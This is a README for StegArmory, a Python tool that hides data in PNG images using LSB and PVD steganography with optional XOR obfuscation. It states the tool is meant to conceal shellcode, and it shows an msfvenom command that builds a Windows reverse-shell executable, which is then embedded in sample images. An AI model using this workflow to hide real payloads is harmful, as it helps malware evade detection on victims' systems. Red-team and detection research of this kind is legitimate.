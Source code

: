 # What is StegArmory?
StegArmory is an image-based steganography utility that can be used to embed and extract data from PNG images. StegArmory currently supports least significant bit (LSB) and pixel value differencing (PVD) encoding techniques. StegArmory was meant to embed and extract/execute shellcode payloads from images, though time-constraints didn't allow that feature of the project to be fully developed - this is left as an exercise for the user :)

# Getting Started
Grab the latest release and install the package requirements by running `pip3 install -r requirements.txt`. Keep in mind StegArmory was built for Python 3.

The file `handler.py` contains the main method and sets up a bunch of logging gizmos at the start. It also contains a few examples of how to encode and extract data from PNG images using both the LSB and PVD methods. Here are those examples:

### Embed data using LSB method
```python
lsb_embed = processor.LSBProcessor(cover_img)
lsb_embed.embed_payload(payload, output_img_path)
```

### Extract data using LSB method
```python
lsb_extract = processor.LSBProcessor(output_img_path)
lsb_extract.extract_payload(output_payload_path)
```

### Embed data using PVD method
```python
pvd_embed = processor.PVDProcessor(cover_img)
pvd_embed.embed_payload(payload, output_img_path)
```

### Extract data using PVD method
```python
pvd_extract = processor.PVDProcessor(output_img_path)
pvd_extract.extract_payload(output_payload_path)
```

Optionally, a XOR key can be specified as a parameter for both the `embed_payload` and `extract_payload` methods. When embedding a payload, the 1-byte XOR key will be used to XOR each byte of the payload before it is embedded in the cover image. Likewise, the 1-byte XOR key specified when extracting a payload will be XOR'd against each byte of the extracted data before it is saved to disk.

# Examples
Below are two examples of a Metasploit payload being stored in the cover image using the LSB and PVD methods.

### Cover Image A

![Cover Image A (Panel)](test/images/panels.png)

### Output Image A (LSB encoded)

![Output Image A (Panel)](test/sample/panels-processed.png)

### Cover Image B

![Cover Image B (Red Car)](test/images/car.png)

### Output Image B (PVD encoded)

![Output Image B (Red Car)](test/sample/car-processed.png)


### Steps to Reproduce

1. Generate the stageless reverse shell using Metasploit\'s msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5704 -a x86 --platform windows -f exe -o msf-revshell.exe`
2. Update handler.py\'s `main` method to contain the following code after initializing logger (around line 12)
```python
# Uses Cover Image A to produce Output Image A that contains the payload msf-revshell.exe
lsb_embed = processor.LSBProcessor("test/images/panels.png")
lsb_embed.embed_payload("msf-revshell.exe", "test/sample/panels-processed.png")
#
# Uses Output Image A to recover original payload from the image
lsb_extract = processor.LSBProcessor("test/sample/panels-processed.png")
lsb_extract.extract_payload("test/sample/panels-payload.exe")
#
# Uses Cover Image B to produce Output Image B (XOR key = 54) that contains the payload msf-revshell.exe
pvd_embed = processor.PVDProcessor("test/images/car.png")
pvd_embed.embed_payload("msf-revshell.exe", "test/sample/car-processed.png", 54)
#
# Uses Output Image B to recover original payload from the image
pvd_extract = processor.PVDProcessor("test/sample/car-processed.png")
pvd_extract.extract_payload("test/sample/car-payload.exe", 54)
```
3. Run StegArmory: `python3 handler.py`


# Other Notes
Images processed with StegArmory contain an embedded header used during extraction. The header is 16 bytes, and appears as follows:
```
----------------HEADER------------------
| [5 bytes] Magic Bytes -> SAMRH
| [1 byte]  Method -> (LSB | PVD)
| [4 bytes] Payload Size in bits
| [4 bytes] Payload CRC32 Checksum
| [1 byte]  XOR Flag -> [0 | 1]
| [1 byte]  Reserved
----------------------------------------
```


